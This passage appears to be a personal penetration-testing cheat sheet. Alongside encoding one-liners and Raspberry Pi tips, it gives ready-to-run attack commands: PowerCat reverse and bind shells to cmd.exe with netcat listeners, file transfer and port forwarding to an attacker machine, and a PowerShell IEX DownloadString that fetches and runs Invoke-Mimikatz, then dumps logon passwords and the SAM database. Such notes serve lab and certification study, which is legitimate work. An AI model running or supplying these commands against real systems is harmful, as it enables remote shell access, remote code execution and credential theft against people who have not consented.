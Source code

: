 If you are interested in more depth on this matter check out the cyberchef's website.

- `echo -n 'hashes are cool | md5sum`
- `echo -n 'hashes are cool' | base64` encoding with base64
- `echo -n 'aGFzaGVzIGFyZSBjb29s' | base64 -d` decoding with base64
- `echo -n 'hashes are cool' | rot13` encoding and decoding is the same syntax

## PowerCat

- file transfer:
    - on target: `powercat -c 10.11.0.4 -p 443 -i C:\Users\user\powercat.ps1`
    - on kali: `nc -lnvp 443 > receiving_powercat.ps1`
- reverse shell:
    - `powercat -c 192.168.115.111 -p 1234 -e cmd.exe` or `powercat -c 192.168.115.111 -g > reverseshell.ps1` and `revereshell.ps1` on kali of course: `nc -lnvp 1234`
- bind shell:
    - encoded bind shell: `powercat -l -p 443 -e cmd.exe -ge > encoded_bindshell.ps1`
    - on kali: `nc -nv <targetg IP> 443`
- port forward:
    - `powercat -l -p 9090 -r tcp:<kali IP>:<kali PORT> -v`
- port scan:
    - on target: `(21,22,80,443) | % {powercat -c <target IP> -p $_ -t 1 -Verbose -d}`

## PowerShell

- downloadstring: `IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')`
- after download: `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" lsadump::sam" "exit"'`
- the above command invocation can be executed directly by putting it as the last line in the Invoke-Mimikatz.ps1 script

## public IP from terminal

- `dig +short myip.opendns.com @resolver1.opendns.com`
- `curl ifconfig.me` a simpler way is just visiting ifconfig.me with curl :)

## quickly append IP to your /etc/hosts file

- `sudo echo '<192.168.0.23> <retrowerb.htb>' | tee -a /etc/hosts`

## Raspberry Pi - Raspbian

- if after a fresh OS install, your created user can run sudo commands or switch to the root user without a password prompt, change the `<username> ALL=(ALL) NOPASSWD: ALL` to `<usernmae> ALL=(ALL) ALL` in the /etc/sudoers.d/010_pi-nopasswd file. Switch to the root user and edit the file with: `visudo /etc/sudoers.d/010_pi-nopasswd`

## Rasbperry Pi - Pivpn (OpenVPN)
